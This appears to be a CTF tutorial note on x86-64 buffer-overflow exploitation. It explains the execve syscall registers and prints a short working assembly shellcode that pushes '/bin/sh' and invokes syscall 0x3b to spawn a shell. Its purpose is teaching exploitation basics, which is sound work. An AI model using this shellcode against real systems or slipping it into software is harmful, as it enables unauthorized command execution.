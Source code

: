 # Simple Buffer Overflow - 0x02
###### tags: `CTF` `PWN`

## Why we'd like to create shellcode?
In pwn problem, most of the program don't have the secret function that we can take the shell. Thus, we can create a shellcode by ourselves and use `bof` to overlap the original address by shellcode address. Then we can take the shell.

## How to create a shellcode in BOF?
In lecture [0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs), we can see sub-function that create a shell using command:
```bash!
execve("/bin/sh", (char *[]){0}, (char *[]){0});
```
According to [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can see that <font color='FF0000'>`execve`</font> is a system call and the parameter sequence is as the same as [normal calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions).
* Note that in `x86-64` →
    > The kernel interface uses `RDI`, `RSI`, `RDX`, `R10`, `R8` and `R9`. In C++, this is the first parameter. 


| %rax | System Call | %rdi | %rsi | %rdx | %r10 | %r8 | %r9 |
| :--------: | :--------: | :--------: |:-:|:-:|:-:|:-:|:-:|
| 59(0x3B)     | sys_execve     | const char \*filename|const char \*const argv[]|const char \*const envp[]||||

Therefore, `%rdi` store address of `/bin/sh` and `%rsi`, `%rdx` can temporarily set `0`

### Implement
```assembly!
mov    rbx, 0x68732f6e69622f
push   rbx
mov    rdi, rsp
xor    rsi, rsi
xor    rdx, rdx
mov    rax, 0x3b
syscall
```
* We can use [hex2text tool](https://string-functions.com/hex-string.aspx) to parse .`0x68732f6e69622f` and we obtain `?hs/nib/`
* First 3 line, we push `/bin/sh` to stack and `%rsp` is the top of the stack address, so we `%rdi` will obtain `/bin/sh` address from `%rsp`
* Then, let `%rsi` and `%rdx` be `0`
* To set `%rax` to right system call number, that is `0x3b`
* Finally, we did it!!!

![](https://imgur.com/EtW8yZu.png)

## Reference
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA)